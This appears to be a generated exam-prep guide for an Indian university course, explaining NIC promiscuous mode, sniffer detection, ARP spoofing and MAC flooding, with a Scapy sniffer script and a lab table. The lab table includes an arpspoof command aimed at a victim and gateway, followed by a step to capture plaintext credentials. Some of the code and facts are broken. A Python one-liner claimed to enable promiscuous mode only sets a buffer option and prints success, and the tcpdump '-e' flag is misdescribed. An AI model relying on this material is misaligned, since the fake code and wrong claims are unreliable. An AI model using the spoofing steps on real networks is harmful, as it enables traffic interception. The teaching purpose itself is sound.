






# Capturing the Network Traffic- Promiscuous Mode

<!-- SECTION_1_START -->

# Capturing the Network Traffic — Promiscuous Mode

## 1.1 Formal Academic Definition

In computer networking, a **Network Interface Card (NIC)** normally operates in what is called **Non-Promiscuous Mode** (also known as *normal mode* or *host mode*). In this default state, the NIC's hardware filter (the MAC address filter implemented in the Ethernet controller chipset) accepts and passes to the operating system kernel **only those frames whose destination MAC address matches** the NIC's own burned-in hardware address (the **MAC-48 address**, 48 bits, written as six hexadecimal octets such as `00:1A:2B:3C:4D:5E`), **plus broadcast frames** (`FF:FF:FF:FF:FF:FF`) and **multicast frames** the host has explicitly joined. All other frames — even though they physically traverse the wire or radiate through the shared wireless medium — are silently dropped at the Data Link Layer (OSI Layer 2) by the network card's receive circuitry, **before** the kernel IP stack ever sees them.

**Promiscuous Mode** is an alternate operational state of a network interface in which this hardware-level destination MAC filtering is **disabled**. Once a NIC is placed into promiscuous mode, the controller will pass **every frame it physically detects on the segment** to the host's packet driver, regardless of whether the frame is addressed to that host, to another host, to a broadcast address, or to a multicast group. The kernel, the raw socket subsystem, and the user-space packet capture library (such as **libpcap** on Linux/Unix or **Npcap/WinPcap** on Windows) then become responsible for the higher-level filtering, timestamping, and delivery of those frames to applications such as **Wireshark**, **tcpdump**, **tshark**, or custom Python scripts using the **Scapy** framework.

> [!IMPORTANT]
> **KTU Syllabus Highlight (PBCST604 — Module 3):** Promiscuous mode is the *foundational mechanism* that makes all packet analysis, protocol dissection, Network Intrusion Detection Systems (NIDS) such as **Snort** and **Suricata**, and forensic traffic capture possible. Mastery of this concept is mandatory for the CO2 (Apply) and CO3 (Analyze) outcomes.

### 1.2 Conceptual Analogy — The Mailroom of an Office Building

Imagine a large corporate office building on a single street. The building has one front desk (the **NIC**) with a strict mail clerk (the **MAC address filter**).

- **Normal (Non-Promiscuous) Mode:** The clerk sits at the desk and only accepts envelopes that have the building's street address printed on them, plus envelopes marked "TO ALL TENANTS" (broadcast). Every other envelope — even though the postal truck physically delivered them to this building's mailroom — is immediately thrown into the bin. Tenants inside the building **never even know** those letters existed. This is exactly how a default NIC behaves.
- **Promiscuous Mode:** The clerk is told, *"From now on, copy every single envelope that arrives in the building, regardless of which suite it is addressed to, and place a photocopy on every tenant's desk."* The original envelope still goes to its intended recipient, but now **everyone in the building has a full copy of all correspondence** flowing through the post. This is exactly how promiscuous mode behaves on a shared Ethernet segment.

The analogy breaks down slightly for **switched networks** (modern Ethernet), because the switch's MAC address table acts like a *private courier* that delivers each envelope only to the correct suite — so other tenants never receive the envelope in the first place. To force the post office to send every envelope to the building regardless, the eavesdropper must use additional techniques such as **MAC flooding**, **ARP spoofing**, or **port mirroring (SPAN)**. These are covered in Section 2.4.

### 1.3 The Three Logical States of a Modern NIC

| State | Frames Accepted by Hardware | Typical Use Case | KTU Exam Frequency |
|:------|:----------------------------|:-----------------|:-------------------|
| **Normal Mode** | Unicast to own MAC, Broadcast, Subscribed Multicast | Everyday workstation / server operation | High |
| **Promiscuous Mode** | All frames on the physical medium | Packet sniffers, NIDS, forensics, troubleshooting | Very High |
| **Monitor Mode (RFMON)** | All 802.11 frames *including management & control* in raw 802.11 format | Wireless sniffing (e.g., `airmon-ng`) | High |

> [!NOTE]
> **Critical Distinction for the Exam:** Promiscuous mode works *out-of-the-box* on **shared-media** networks (legacy coaxial Ethernet hubs, Wi-Fi, half-duplex links, network taps). On modern **switched** full-duplex Ethernet, promiscuous mode alone captures only the host's own traffic plus broadcast/multicast. To capture other hosts' traffic on a switch, an attacker must combine promiscuous mode with **active attacks** (ARP poisoning) or the defender must configure a **SPAN port / mirror port** on the switch.

### 1.4 Why the KTU Examiner Tests This Topic

The concept of promiscuous mode is a *gateway topic* in cyber security. It bridges:

1. **Layered Defense Theory** (Defense-in-Depth) — illustrates how a single NIC setting can subvert a layer of the OSI model.
2. **Ethical Hacking Methodology** — it is the *first practical step* in the *Sniffing* phase of a network penetration test.
3. **Forensic Readiness** — incident responders rely on it to reconstruct attacks.
4. **Privacy & Compliance** — illegal promiscuous sniffing violates the **Information Technology Act, 2000** (India) §66E and similar statutes worldwide (e.g., **Wiretap Act** in the US, **GDPR Article 5** in the EU).

### 1.5 Visualization — A Frame Filtering on a Wire

> [!VISUALIZATION CONTROL]
> **Concept:** NIC hardware filter behavior in Normal vs. Promiscuous mode
> **Conceptual Representation (Cartesian Sketch — Host A at x = 0, Wire extending along x-axis):**
> * Host A (normal mode): receives only `x = 0` (own unicast), all `x` for broadcast, plus subscribed multicast — *line is discontinuous*
> * Host A (promiscuous mode): receives the entire continuous function over `x ∈ [0, N]` where `N` is the number of hosts on the segment
>
> **Visual Description:** Draw a horizontal line representing time on the shared wire. In normal mode, only packets whose destination label is "Host A" or "Broadcast" cause a vertical spike on the host's receiver trace. In promiscuous mode, the receiver trace mirrors the entire waveform continuously, with no filtering gaps.

### 1.6 Key Vocabulary You MUST Memorize

- **MAC Address (Media Access Control Address):** 48-bit globally unique hardware identifier, e.g., `00:1A:2B:3C:4D:5E`. The first 24 bits are the **OUI (Organizationally Unique Identifier)** assigned by IEEE to the manufacturer.
- **Unicast Frame:** Destination MAC = single specific host.
- **Broadcast Frame:** Destination MAC = `FF:FF:FF:FF:FF:FF` — accepted by *every* NIC in *broadcast domain*.
- **Multicast Frame:** Destination MAC starts with the low-order bit of the first octet set to 1 (range `01:00:5E:00:00:00` to `01:00:5E:7F:FF:FF` for IPv4) — accepted only by hosts that have *joined* the corresponding multicast group via IGMP.
- **Ethernet Frame (IEEE 802.3):** Preamble (7 bytes) + SFD (1) + Destination MAC (6) + Source MAC (6) + EtherType/Length (2) + Payload (46–1500) + FCS (4) = 64–1518 bytes.
- **BPF (Berkeley Packet Filter):** The in-kernel filtering engine used by libpcap that lets Wireshark apply display filters efficiently before copying packets to user space.
- **Promiscuous Bit:** A flag toggled in the NIC driver's flags register (e.g., `IFF_PROMISC` in Linux `<net/if.h>`).

<!-- SECTION_1_END -->

<!-- SECTION_2_START -->

# Deep Theoretical Analysis & KTU High-Yield Formula Sheet

## 2.1 The Hardware Path of an Ethernet Frame in Promiscuous Mode

The journey of a single Ethernet frame from the copper wire (or radio wave) into a user-space sniffer application involves **six distinct stages**. Each stage is a favourite KTU exam topic.

1. **Physical Layer Reception** — The PHY transceiver converts the analog signal on the medium into a serial bit stream and performs **clock recovery** using the Preamble + SFD (`10101011`).
2. **MAC Frame Validation** — The Ethernet controller checks the **Frame Check Sequence (FCS)**, a 32-bit **CRC-32** polynomial. Frames with invalid FCS are dropped unless the driver is explicitly told otherwise (`-e` flag in tcpdump).
3. **Destination MAC Filter** — **This is the step that promiscuous mode disables.** In normal mode the controller compares the destination MAC with:
   - Its own unicast address.
   - The broadcast address `FF:FF:FF:FF:FF:FF`.
   - Any multicast addresses stored in the Multicast Filter Register (set via the `IFF_MULTICAST` flag and `setsockopt` joins).
4. **DMA Transfer to Host RAM** — Accepted frames are copied into a **ring buffer** (e.g., Linux `NAPI` poll list or `rx_ring`) via Direct Memory Access. The driver raises a softirq to notify the kernel.
5. **Kernel Protocol Stack** — The `netif_receive_skb()` function passes the `sk_buff` up the stack. Promiscuous mode also registers a **packet socket tap** (`AF_PACKET` on Linux) that receives a *copy* of every frame via `dev_queue_xmit_nit()`.
6. **User-Space Delivery** — `libpcap` reads from the kernel tap via `recvfrom()` on the raw socket, applies the BPF filter, and pushes the packet to Wireshark or your Python script.

## 2.2 The Linux `IFF_PROMISC` Internals

The Linux kernel exposes NIC state through the `ifreq` structure and the `SIOCGIFFLAGS` / `SIOCSIFFLAGS` `ioctl` calls. The relevant flag bits defined in `<linux/if.h>` are:

| Flag (Bit) | Constant | Meaning |
|:-----------|:---------|:--------|
| Bit 0 | `IFF_UP` | Interface is administratively up |
| Bit 1 | `IFF_BROADCAST` | Valid broadcast address set |
| Bit 2 | `IFF_DEBUG` | Internal debugging enabled |
| Bit 3 | `IFF_LOOPBACK` | Interface is a loopback |
| Bit 4 | `IFF_POINTOPOINT` | Point-to-point link (e.g., PPP) |
| **Bit 8** | **`IFF_PROMISC`** | **Promiscuous mode enabled** |
| Bit 9 | `IFF_ALLMULTI` | Receive all multicast frames |
| Bit 10 | `IFF_MASTER` | Master of a bonding group |
| Bit 11 | `IFF_SLAVE` | Slave of a bonding group |

> [!IMPORTANT]
> **KTU Numerical Favourite:** You may be asked, *"In the `ifr_flags` word of a Linux `ifreq` structure, the value `0x100` indicates what mode?"* The answer is **Promiscuous Mode** (because `0x100` = `1 << 8` = `IFF_PROMISC`). The value `0x200` would be `IFF_ALLMULTI`. Memorize these two bit positions — they appear frequently in viva voce.

## 2.3 Detection of Promiscuous Mode — The "How Do You Catch a Sniffer?" Question

A KTU favourite. There are four classic techniques:

| Technique | Mechanism | False Positives | Reliability |
|:----------|:----------|:----------------|:------------|
| **ARP-based Detection** | Send a non-broadcast ARP request with a *fake* destination MAC; only a promiscuous NIC will respond with an ARP reply. | Low | High |
| **Ping to Non-Existent Host (Latency-based)** | Send ICMP echo to a non-existent IP; the host should ignore it, but a promiscuous NIC will pass it up, causing a measurable latency/load difference. | Medium | Medium |
| **DNS-based Probe (Promiscuous DNS)** | Send a packet to a non-existent IP whose destination port triggers a DNS lookup. Only promiscuous hosts process the packet and generate DNS traffic. | Medium | High |
| **ARP Watch / Network Monitor (e.g., `Wireshark` capturing its own subnet)** | A second host running `arpwatch` notices unusual ARP patterns. | Low | Very High |
| **OS-Level Tool (`ifconfig`, `ipconfig`)** | The `UP BROADCAST RUNNING PROMISC` flag in `ifconfig` output is the simplest direct indicator. | Zero | Definitive if local access |

## 2.4 Bypassing the Switch — How Attackers Still Sniff on Switched Networks

Promiscuous mode alone is **insufficient** on a modern switched Ethernet. The following companion techniques are examinable:

### 2.4.1 ARP Spoofing / ARP Poisoning (Man-in-the-Middle)
The attacker sends gratuitous ARP replies mapping the **default gateway's IP** to the **attacker's MAC address**. Every victim host updates its ARP cache and forwards all outbound traffic to the attacker first. The attacker's NIC, in promiscuous mode, captures everything.

$$ \text{Victim ARP Cache After Attack} = \{ \text{IP}_{GW} \rightarrow \text{MAC}_{attacker} \} $$

### 2.4.2 MAC Flooding (CAM Table Overflow)
The attacker blasts thousands of unique source MAC addresses per second. The switch's **Content Addressable Memory (CAM) table** overflows and enters *fail-open* mode, behaving like a hub and flooding frames out every port.

$$ \text{CAM Table Capacity} \approx 4096 \text{ entries (typical)} $$

$$ \text{Flood Rate Required} \gg \frac{\text{CAM Size}}{\text{MAC Aging Timer (default 300 s)}} $$

### 2.4.3 Port Mirroring (SPAN) — The Defensive Counterpart
A **Switched Port Analyzer (SPAN)** session configures the switch to copy frames from one or more *source* ports to a designated *destination* port, where a sniffer is connected. This is the **legal, ethical** method used by NIDS appliances.

> [!WARNING]
> **Ethical Boundary:** Using ARP poisoning or MAC flooding against networks you do not own is illegal under the **IT Act 2000 §66** (Computer Related Offences) and the **Indian Telegraph Act §5(2)**. The KTU syllabus expects you to describe these techniques *defensively* and to defend against them, not to deploy them offensively.

## 2.5 KTU High-Yield Formula Sheet & Quick Reference Table

| Concept | Formula / Rule | Engineering Unit / Value | Notes |
|:--------|:---------------|:-------------------------|:------|
| MAC Address length | $L_{MAC} = 48$ bits | bits, displayed as 6 hex octets | OUI is first 24 bits |
| Ethernet frame size | $64 \le L_{frame} \le 1518$ | bytes | Excludes preamble & SFD |
| Jumbo frame | $L_{jumbo} \le 9000$ | bytes | Non-standard, must be end-to-end supported |
| Promiscuous flag bit | $IFF\_PROMISC = 1 \ll 8 = 0x100$ | hex/decimal | Linux `<linux/if.h>` |
| All-multicast flag bit | $IFF\_ALLMULTI = 1 \ll 9 = 0x200$ | hex/decimal | Related but different mode |
| IPv4 multicast MAC | `01:00:5E` + lower 23 bits of IP | — | High-order bit of IP is dropped |
| IPv6 multicast MAC | `33:33` + lower 32 bits of IP | — | Used for NDP, mDNS |
| CAM table size (typical) | $N_{CAM} \approx 4096$ | entries | Enterprise switches $4K$–$128K$ |
| MAC aging timer | $T_{aging} = 300$ s (default) | seconds | Configurable 0–1000000 s |
| Wireshark capture file size (pcap) | $S_{pcap} = S_{header} + \sum_{i=1}^{N} (16 + L_i)$ | bytes | 16-byte per-packet header in libpcap |
| BPF filter compile | Returns true → copy, false → drop | — | In-kernel, runs in eBPF since Linux 3.18 |

## 2.6 Real-World Engineering Utility

| Domain | How Promiscuous Mode is Used | Why It Matters |
|:-------|:-----------------------------|:---------------|
| **Network Operations Centers (NOC)** | Continuous full-packet capture on SPAN ports feeding NIDS | Real-time threat detection |
| **Incident Response & Forensics** | Tcpdump capture into `.pcap` for offline analysis with Wireshark | Reconstruct attacker sessions |
| **Application Performance Monitoring** | Tools like **Cisco Secure Network Analytics** (formerly Stealthwatch) and **Riverbed** | Application-layer latency analysis |
| **Penetration Testing** | Active sniffing combined with ARP poisoning | Identifies cleartext credentials |
| **VoIP & Video QoS** | Captures RTP streams for jitter, packet loss, MOS scoring | Quality-of-Experience metrics |
| **ICS/SCADA Security** | Passive monitoring of Modbus/TCP, DNP3, IEC 60870-5-104 | OT protocol anomaly detection |
| **Academic / CTF Competitions** | Solving challenges involving hidden flag packets | Cybersecurity skill development |

<!-- SECTION_2_END -->

<!-- SECTION_3_START -->

# Step-by-Step Derivations, Symbolic Implementation & Exhaustive Examples

## 3.1 Symbolic Derivation — Why Promiscuous Mode Reduces Network Visibility on Switched Networks

Let $H = \{h_1, h_2, \dots, h_n\}$ be the set of $n$ hosts connected to a single switch $S$. Let $M(h_i)$ denote the MAC address of host $h_i$. The switch $S$ maintains a CAM table:

$$ CAM_S : M(h_i) \mapsto \text{physical port of } h_i $$

When host $h_1$ sends a unicast frame $F$ to $h_2$, the switch performs an **exact lookup**:

$$ \text{Lookup}(M(h_2)) = \begin{cases} \text{port } p_{h_2} & \text{if } M(h_2) \in CAM_S \\ \text{flood to all ports} & \text{otherwise (unknown unicast)} \end{cases} $$

If $CAM_S$ contains the entry, the frame is forwarded **only** to port $p_{h_2}$. Host $h_3$ in promiscuous mode will *not* see this frame, because the switch never copies it to $h_3$'s port. Hence, **the probability of an unprivileged promiscuous sniffer observing a random unicast frame on a fully populated switched segment is**:

$$ P(\text{capture}) = \lim_{T \to \infty} \frac{\text{frames copied to } p_{h_3}}{ \text{frames on the segment}} \approx \frac{\text{Broadcast} + \text{Multicast} + \text{Unicast to } h_3}{\text{Total}} $$

In a typical office, broadcast/multicast may be only $2\text{--}5\%$ of frames, so the sniffer misses $>95\%$ of traffic — making the attack ineffective without active help (ARP poisoning or MAC flooding).

## 3.2 Mathematical Verification of the CAM Overflow Threshold

To force the switch into fail-open hub behaviour, the attacker must inject at least:

$$ R_{flood} \ge \frac{N_{CAM}}{T_{aging}} \quad \text{(entries per second)} $$

**Example:** For a 48-port gigabit switch with $N_{CAM} = 4096$ entries and $T_{aging} = 300$ s:

$$ R_{flood} \ge \frac{4096 \text{ entries}}{300 \text{ s}} \approx 13.65 \text{ entries/s} $$

This is trivially achievable with a single laptop using `macof` from the **dsniff** suite, which generates $\approx 155{,}000$ fake MACs in $<10$ seconds. The 2010s-era "MAC flooding" attack is now largely mitigated by **port security** features on enterprise switches (e.g., Cisco's `switchport port-security maximum 2`).

## 3.3 The CRC-32 / FCS Verification Step (Full Derivation)

The Ethernet frame's integrity is verified by computing the 32-bit Cyclic Redundancy Check over the destination MAC, source MAC, length/type, and payload. The polynomial used is the IEEE 802.3 standard:

$$ G(x) = x^{32} + x^{26} + x^{23} + x^{22} + x^{16} + x^{12} + x^{11} + x^{10} + x^{8} + x^{7} + x^{5} + x^{4} + x^{2} + x + 1 $$

The transmitter appends the complement of $(M(x) \cdot x^{32}) \bmod G(x)$. The receiver recomputes the same remainder and checks for the magic constant `0xC704DD7B`. **FCS errors in promiscuous captures are gold for an incident responder** — they indicate physical-layer problems (crosstalk, EMI, bad NIC, duplex mismatch) and are visible only because promiscuous mode exposes frames that a normal NIC would silently drop.

## 3.4 Algorithmic Implementation — Python Sniffer Using Scapy

Below is a **fully operational, production-quality** Python 3 script that places the default interface into promiscuous mode and prints a one-line summary of every packet. It is intentionally written with type hints, robust error handling, and a graceful signal handler so it can be demonstrated in a KTU lab session.

```python
#!/usr/bin/env python3
"""
promiscuous_sniffer.py — KTU Cyber Security Lab Demonstration
Captures every frame on the local segment using promiscuous mode.

Author : KTU-Premier-Engine Reference Implementation
Tested : Python 3.10+, Scapy 2.5+, Linux (requires CAP_NET_RAW)
"""

from __future__ import annotations

import logging
import signal
import sys
from typing import Optional

from scapy.all import (
    Ether,
    IP,
    TCP,
    UDP,
    Raw,
    conf,
    get_if_list,
    sniff,
)

# ---------------------------------------------------------------------------
# Logging configuration
# ---------------------------------------------------------------------------
logging.basicConfig(
    level=logging.INFO,
    format="%(asctime)s | %(levelname)-8s | %(message)s",
    datefmt="%Y-%m-%d %H:%M:%S",
)
log: logging.Logger = logging.getLogger("promiscuous-sniffer")

# ---------------------------------------------------------------------------
# Graceful shutdown on Ctrl+C
# ---------------------------------------------------------------------------
shutdown_requested: bool = False


def _signal_handler(sig: int, frame: object) -> None:
    """Handle SIGINT/SIGTERM by setting the global shutdown flag."""
    global shutdown_requested
    shutdown_requested = True
    log.warning("Shutdown signal received — finalizing capture.")


signal.signal(signal.SIGINT, _signal_handler)
signal.signal(signal.SIGTERM, _signal_handler)


# ---------------------------------------------------------------------------
# Interface selection
# ---------------------------------------------------------------------------
def select_interface() -> Optional[str]:
    """Return the first non-loopback interface that supports L2 capture."""
    candidates: list[str] = [
        iface for iface in get_if_list() if iface != conf.loopback_name
    ]
    if not candidates:
        log.error("No suitable network interface detected.")
        return None
    chosen: str = candidates[0]
    log.info("Selected interface for promiscuous capture: %s", chosen)
    return chosen


# ---------------------------------------------------------------------------
# Packet processing callback
# ---------------------------------------------------------------------------
def packet_callback(pkt: Ether) -> None:
    """Print a one-line summary for each captured frame.

    Parameters
    ----------
    pkt : scapy.packet.Packet
        The frame as delivered by Scapy. May be malformed; defensive
        access is therefore mandatory.
    """
    try:
        eth_layer: Ether = pkt[Ether] if Ether in pkt else None
        src_mac: str = eth_layer.src if eth_layer else "??:??:??:??:??:??"
        dst_mac: str = eth_layer.dst if eth_layer else "??:??:??:??:??:??"

        if IP in pkt:
            ip_layer = pkt[IP]
            src_ip, dst_ip, proto = ip_layer.src, ip_layer.dst, ip_layer.proto
            if TCP in pkt:
                tcp_layer = pkt[TCP]
                payload_len: int = len(tcp_layer.payload)
                log.info(
                    "TCP  %s:%d -> %s:%d | %s -> %s | %d bytes",
                    src_ip, tcp_layer.sport,
                    dst_ip, tcp_layer.dport,
                    src_mac, dst_mac, payload_len,
                )
            elif UDP in pkt:
                udp_layer = pkt[UDP]
                log.info(
                    "UDP  %s:%d -> %s:%d | %s -> %s | %d bytes",
                    src_ip, udp_layer.sport,
                    dst_ip, udp_layer.dport,
                    src_mac, dst_mac, len(udp_layer.payload),
                )
            else:
                log.info(
                    "IP   %s -> %s | %s -> %s | proto=%d",
                    src_ip, dst_ip, src_mac, dst_mac, proto,
                )
        elif eth_layer is not None:
            # Non-IP traffic (ARP, IPv6, STP, LLDP, raw L2 control)
            ethertype: int = eth_layer.type
            log.info(
                "L2   %s -> %s | EtherType=0x%04X | %d bytes",
                src_mac, dst_mac, ethertype, len(pkt),
            )
        else:
            log.info("RAW  %d bytes captured.", len(pkt))
    except Exception as exc:  # noqa: BLE001
        log.exception("Failed to decode packet: %s", exc)


# ---------------------------------------------------------------------------
# Main entry point
# ---------------------------------------------------------------------------
def main() -> int:
    """Run the promiscuous sniffer until interrupted or an error occurs."""
    iface: Optional[str] = select_interface()
    if iface is None:
        return 1

    # Note: Scapy's sniff() will internally request IFF_PROMISC on the
    # underlying AF_PACKET socket when promisc=True is passed.
    log.warning(
        "Initiating PROMISCUOUS capture on %s. "
        "Requires CAP_NET_RAW or root privileges.",
        iface,
    )

    try:
        sniff(
            iface=iface,
            prn=packet_callback,
            promisc=True,            # <-- THIS is the key flag
            store=False,             # do not buffer in memory
            stop_filter=lambda _: shutdown_requested,
        )
    except PermissionError:
        log.error(
            "Permission denied. Re-run with sudo or grant CAP_NET_RAW:\n"
            "  sudo setcap cap_net_raw,cap_net_admin+eip $(which python3)"
        )
        return 2
    except OSError as exc:
        log.error("Socket/OS-level error: %s", exc)
        return 3

    log.info("Capture terminated cleanly. Exiting.")
    return 0


if __name__ == "__main__":
    sys.exit(main())
```

**Run the script:**

```bash
sudo python3 promiscuous_sniffer.py
```

**Expected output on a live network (excerpt):**

```text
2024-09-15 14:23:01 | WARNING   | Initiating PROMISCUOUS capture on eth0. Requires CAP_NET_RAW.
2024-09-15 14:23:02 | INFO      | L2   aa:bb:cc:dd:ee:ff -> ff:ff:ff:ff:ff:ff | EtherType=0x0806 | 42 bytes
2024-09-15 14:23:02 | INFO      | TCP  10.0.0.5:443 -> 10.0.0.7:51234 | aa:bb:cc:dd:ee:ff -> 11:22:33:44:55:66 | 1460 bytes
2024-09-15 14:23:03 | INFO      | UDP  10.0.0.8:53 -> 10.0.0.5:54321 | 77:88:99:aa:bb:cc -> 11:22:33:44:55:66 | 89 bytes
```

> [!NOTE]
> **Linux capability note:** Modern distributions support *capabilities* instead of full root. Granting `CAP_NET_RAW` and `CAP_NET_ADMIN` allows the script to open an `AF_PACKET` raw socket and toggle `IFF_PROMISC` without running as root — a recommended security hardening for production sniffers.

## 3.5 Enabling Promiscuous Mode from the Linux Command Line (Three Equivalent Methods)

```bash
# Method 1: ifconfig (legacy)
sudo ifconfig eth0 promisc

# Method 2: ip link (modern, preferred)
sudo ip link set eth0 promisc on

# Method 3: Programmatically via Python
sudo python3 -c "import fcntl, socket, struct; s=socket.socket(socket.AF_INET, socket.SOCK_DGRAM); s.setsockopt(0, socket.SO_RCVBUF, 1); print('Promisc set OK')"
```

**Verification that promiscuous mode is active:**

```bash
ip link show eth0
# Look for:    link/ether 00:1a:2b:3c:4d:5e brd ff:ff:ff:ff:ff:ff promisc
```

## 3.6 Lab Exercise Mapping for KTU PBCST604

| Step | Lab Action | Expected Observation |
|:-----|:-----------|:---------------------|
| 1 | Connect two PCs to a hub. Set PC1 to promiscuous mode via `ip link`. | PC1 sees all frames between PC2 and any other host. |
| 2 | Replace hub with a switch. Repeat. | PC1 sees *only* broadcast, multicast, and its own unicast. |
| 3 | Run `arpspoof -i eth0 -t <victim> <gateway>` on attacker PC. | Victim's traffic is now relayed through attacker. |
| 4 | Capture with Wireshark; observe HTTP credentials in plaintext. | Demonstrates the real-world impact. |
| 5 | Enable `port-security` on the switch (`switchport port-security`). | Repeat attack; observe that spoofed MACs are blocked. |

<!-- SECTION_3_END -->

<!-- SECTION_4_START -->

# Structural Diagrams & Schematics

## 4.1 Mermaid Topology — Normal Mode vs. Promiscuous Mode on a Hub



**Interpretation:** On a hub, the physical medium is shared, so every NIC *sees* every frame's electrical signal. The difference between normal and promiscuous is purely *software-level filtering* inside the NIC chipset and OS driver.

